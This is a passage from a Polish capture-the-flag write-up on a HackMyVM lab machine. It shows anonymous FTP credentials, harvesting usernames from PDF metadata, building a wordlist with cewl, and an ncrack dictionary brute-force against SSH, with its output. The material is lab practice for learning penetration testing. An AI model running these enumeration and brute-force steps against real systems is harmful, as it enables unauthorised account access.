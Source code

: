 ```bash
Credentials
===========

host          origin        service       public     private              realm  private_type  JtR Format  cracked_password
----          ------        -------       ------     -------              -----  ------------  ----------  ----------------
172.16.1.178  172.16.1.178  21/tcp (ftp)  anonymous  mozilla@example.com         Password                  

```
Na tym ftp-ie mamy ciekawe pliki w formacie **.pdf**, które ściągamy sobie na dysk.
{: .text-justify}
# 03. PDF
Do uzyskania informacji o plikach _.*pdf_ polecam program **Pdfinfo** z pakietu **poppler-utils**(Kali).Wchodzimy do katalogu, gdzie mamy ściągnięte nasze pliki i odpalamy taki skrypt.
{: .text-justify}
```bash
for i in $(ls -1 *.pdf); do pdfinfo $i | grep '^Author:'| awk {'print $2'}; done | sort -u > users.txt
```
Zalecam wcześniej obejrzeć te dokumenty, zobaczyć czy czegoś dodatkowo nie ma, ale idę na skróty, żeby do końca nie zepsuć zabawy. Poniżej jest  jednolinijkowiec - jak się domyślacie, zgrywa użytkowników do pliku **users.txt**. Być może później się to przyda.
{: .text-justify}
```bash
for i in $(ls -1 *.pdf); do pdfinfo $i | grep '^Author:'| awk {'print $2'}; done | sort -u > users.txt
```
# 04. WWW
Strona jak strona, informacje, obrazki i tekst. **Dirb** ani **Feroxbuster** niczego ciekawego nie znalazł, oprócz dostępu do katalogów. Więc przyszedł czas na skrapowanie strony. Do tego - wg mnie - najlepiej nadaje się **Cewl**.
{: .text-justify}
```bash
cewl http://elite-economists.hmv/index.html > elite-economists.hmv.index.txt
cewl http://elite-economists.hmv/services.html > elite-economists.hmv.services.txt
cewl http://elite-economists.hmv/cases.html > elite-economists.hmv.cases.txt
cewl http://elite-economists.hmv/blog.html > elite-economists.hmv.blog.txt
cewl http://elite-economists.hmv/contact.html > elite-economists.hmv.contact.txt
```
Pozgrywałem wszystkie strony, chociaż były na nich podobne słowa, zebrałem wszystko w jedno i zlikwidowałem duble.
{: .text-justify}
```bash
cat *.txt | sort -u > elite-economists.hmv.all.txt
```
# 05. Bruteforce
Myślałem - a co tam - może się uda coś znaleźć, czyli __login__ i __hasło__ metodą słownikową i wejście na **SSH**. Użytkowników mamy, słowa też. Więc trzeba to połączyć Aby to znaleźć można użyć między innymi programy: **Hydra** i **Ncat**. Zobaczymy który szybciej to zrobi.
{: .text-justify}
## 05a. Ncrack
```bash
ncrack -v -U users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.16.1.178
```
```bash
Ncrack done: 1 service scanned in 362.97 seconds.
Probes sent: 2010 | timed-out: 0 | prematurely-closed: 1984
```
